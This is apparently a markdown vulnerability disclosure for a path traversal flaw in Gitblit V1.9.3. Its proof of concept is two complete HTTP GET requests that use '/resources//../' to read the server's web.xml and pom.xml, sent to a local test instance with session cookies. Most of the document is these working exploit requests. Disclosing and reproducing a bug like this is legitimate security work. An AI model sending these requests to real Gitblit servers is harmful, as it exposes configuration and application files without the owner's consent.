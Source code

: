 # Gitblit Path Traversal



## Description

Gitblit is an open source, pure Java Git solution for managing, viewing, and serving **Git** repositories. There is a **Path Traversal** vulnerability in Gitblit V1.9.3 which can read website files.



# Proof of Concept

read `web.xml`

```
GET /resources//../WEB-INF/web.xml HTTP/1.1
Host: 127.0.0.1:8083
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:95.0) Gecko/20100101 Firefox/95.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: JSESSIONID=1arfn8db09ors1a3p1837sgxmh; Gitblit=a9d7b582ef204ffbd9cc2ff18f01d603c069fbeb
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1


```

![gitblit](imgs/gitblit.png)



read `pom.xml`

```
GET /resources//../META-INF/maven/com.gitblit/gitblit/pom.xml HTTP/1.1
Host: 127.0.0.1:8083
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:95.0) Gecko/20100101 Firefox/95.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: JSESSIONID=1arfn8db09ors1a3p1837sgxmh; Gitblit=a9d7b582ef204ffbd9cc2ff18f01d603c069fbeb
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1


```

![gitblit2](imgs/gitblit2.png)

